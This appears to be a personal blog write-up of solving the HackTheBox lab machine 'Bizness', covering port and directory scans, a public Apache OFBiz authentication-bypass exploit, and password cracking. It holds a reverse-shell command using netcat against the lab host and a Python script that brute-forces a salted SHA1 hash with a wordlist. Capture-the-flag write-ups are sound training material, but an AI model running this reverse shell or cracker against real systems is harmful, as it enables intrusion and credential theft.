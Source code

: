 ```yaml
---
tagline: bizness
title: Bizness - My First HTB machine
description: My first HTB Machine and how I solved it
banner: /blog/biznessbanner.jpeg/
banner_alt: Banner of HTB
date: '2024-02-11'
---
```


## Starting up 🚀

I started by installing my ovpn files and running ```sudo openvpn /Users/vipin/Downloads/lab_qvipin.ovpn```. From there you should be ready to start your machine.

## Scanning for ports

- The first step typically for machines is running a **nmap** scan.

```bash:Terminal

❯ sudo nmap -sV 10.10.11.252
Password:
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-04 10:14 EST
Nmap scan report for 10.10.11.252
Host is up (0.054s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp  open  http     nginx 1.18.0
443/tcp open  ssl/http nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.64 seconds
```

- With this port scan we now know that 22, 80, & 443 is open.

## Accessing the website

- Entering 10.10.11.252 into our browser will give us a *ERR_CONNECTION_TIMED_OUT* error so to fix this running ```echo "TARGET_IP domain.htb" | sudo tee -a /etc/hosts``` and replacing the **TARGET_IP** with our IP and **domain.htb** with our domain allows us to access the website.

## Finding Vulnerabilities

- Upon accessing the website we see a normal website.

![Image showing the main page of bizness.htb](/blog/biznesspics/biznesspage1.png 'Fig.1')

- Towards the bottom we see the website is made with **Apache OFBiz**

![Image showing apache ofbiz](/blog/biznesspics/ApacheOFBIZ1.png 'Fig.2')

- Searching for vulnerabilities associated with **Apache OFBiz** we find [this Github repo](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass).

## Directory Busting

- To look for some directories in the site, I will be using Dirsearch

```bash:Terminal
❯ dirsearch -u https://bizness.htb/ --exclude-status 404

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11460

Output File: /Users/vipin/reports/https_bizness.htb/__24-02-09_23-38-26.txt

Target: https://bizness.htb/

[23:38:26] Starting:
[23:38:30] 400 -  795B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[23:38:31] 400 -  795B  - /a%5c.aspx
[23:38:31] 302 -    0B  - /accounting  ->  https://bizness.htb/accounting/
[23:38:42] 302 -    0B  - /catalog  ->  https://bizness.htb/catalog/
[23:38:43] 302 -    0B  - /common  ->  https://bizness.htb/common/
[23:38:44] 302 -    0B  - /content  ->  https://bizness.htb/content/
[23:38:44] 302 -    0B  - /content/  ->  https://bizness.htb/content/control/main
[23:38:44] 302 -    0B  - /content/debug.log  ->  https://bizness.htb/content/control/main
[23:38:44] 200 -   34KB - /control/
[23:38:44] 200 -   34KB - /control
[23:38:44] 200 -   11KB - /control/login
[23:38:46] 302 -    0B  - /error  ->  https://bizness.htb/error/
[23:38:46] 302 -    0B  - /example  ->  https://bizness.htb/example/
[23:38:48] 302 -    0B  - /images  ->  https://bizness.htb/images/
[23:38:49] 302 -    0B  - /index.jsp  ->  https://bizness.htb/control/main
[23:38:59] 200 -   21B  - /solr/admin/
[23:38:59] 200 -   21B  - /solr/admin/file/?file=solrconfig.xml
[23:38:59] 302 -    0B  - /solr/  ->  https://bizness.htb/solr/control/checkLogin/

Task Completed
```

## Getting the User flag

- Looking inside accounting, we find a login page, but that seems to not matter right now.

![Image showing the login page of bizness.htb](/blog/biznesspics/loginbizness1.png 'Fig.2')

- Let's use that [POS repo](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) we found in the beginning..

```bash:Terminal 
└─$ python3 exploit.py --url https://bizness.htb --cmd "nc 10.10.14.35 6969 -e /bin/bash"
[+] Generating payload...
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.


### On another tab I am listening on port 6969

└─$ nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.11.252] 59388

``` 

- And now we have the user flag!

![Image showing the user flag](/blog/biznesspics/userflag1.png 'Fig.3')

## Getting the Root flag

- This is the most difficult part as we need to look for the Hash with the Salt, and this single handedly took almost an hour for this.

- I found the password in *c54d0.dat* 

![Image showing the password](/blog/biznesspics/rootpassword1.png 'Fig.4')

- Using the Python script below, I cracked the password

```python:Notepad

import hashlib
import base64
import os
from tqdm import tqdm

class PasswordEncryptor:
    def __init__(self, hash_type="SHA", pbkdf2_iterations=10000):
       
        self.hash_type = hash_type
        self.pbkdf2_iterations = pbkdf2_iterations

    def crypt_bytes(self, salt, value):

        if not salt:
            salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')
        hash_obj = hashlib.new(self.hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        result = f"${self.hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
        return result

    def get_crypted_bytes(self, salt, value):
      
        try:
            hash_obj = hashlib.new(self.hash_type)
            hash_obj.update(salt.encode('utf-8'))
            hash_obj.update(value)
            hashed_bytes = hash_obj.digest()
            return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')
        except hashlib.NoSuchAlgorithmException as e:
            raise Exception(f"Error while computing hash of type {self.hash_type}: {e}")

hash_type = "SHA1"
salt = "d"
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
wordlist = '/Users/vipin/tech/CTFs/wordlists/rockyou.txt'

encryptor = PasswordEncryptor(hash_type)

total_lines = sum(1 for _ in open(wordlist, 'r', encoding='latin-1'))

with open(wordlist, 'r', encoding='latin-1') as password_list:
    for password in tqdm(password_list, total=total_lines, desc="Processing"):
        value = password.strip()
        
        hashed_password = encryptor.crypt_bytes(salt, value.encode('utf-8'))
        
        if hashed_password == search:
            print(f'Found Password:{value}, hash:{hashed_password}')
            break  

```

![Image showing the cracked password](/blog/biznesspics/crackedpassword1.png 'Fig.5')

- And Voila!!!

![Image showing that i pwned it](/blog/biznesspics/biznesspwned.png 'Fig.6')









